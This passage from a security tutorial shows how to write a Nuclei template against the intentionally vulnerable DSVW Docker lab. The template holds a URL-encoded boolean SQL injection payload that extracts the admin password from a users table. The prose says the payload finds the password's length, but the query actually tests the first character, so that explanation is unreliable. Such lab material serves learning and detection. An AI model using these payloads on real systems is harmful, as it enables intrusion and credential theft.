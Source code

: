 ### Start the vulnerable docker

We are going to be using [this](https://github.com/appsecco/vulnerable-apps/tree/master/dsvw) server with a couple vulnerabilities to test and practice our new acquired knowledge about **Nuclei templates**.

To run the docker: `docker run -p 1234:8000 -it appsecco/dsvw`

Once it has started, you can access it and see a couple of vulnerabilities to test and create templates for.. The first one is the following example.

In this first example there is a **boolean SQLI** which can be detected as the table fills or not, so because that the matcher selected to detect this vulnerability is a **dsl** looking at the length of the response body. 

---

### Create a Nuclei Template to Detect the Boolean SQLI

To find the length of the password, we will use a payload (ranging from 1 to 9) hardcoded in the template, although a file could also be used for more dynamic payloads.

Create a file called something like `BSQLI-dsvw.yaml` with the following content:

```yaml
id: boolean-sqli-password-extract
info:
  name: SQLite Boolean-Based SQL Injection - Password Extraction
  author: yourName
  severity: critical
  tags: ["sqli","sqlite","boolean-based"]

http:
  - method: GET
    path:
      - "{{BaseURL}}?id=2%20AND%20SUBSTR((SELECT%20password%20FROM%20users%20WHERE%20name%3D%27admin%27)%2C1%2C1)%3D%27{{length}}%27"

    payloads:
      length:
        - 1
        - 2
        - 3
        - 4
        - 5
        - 6
        - 7
        - 8
        - 9
    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - "len(body)>1350 && status_code==200"

```

---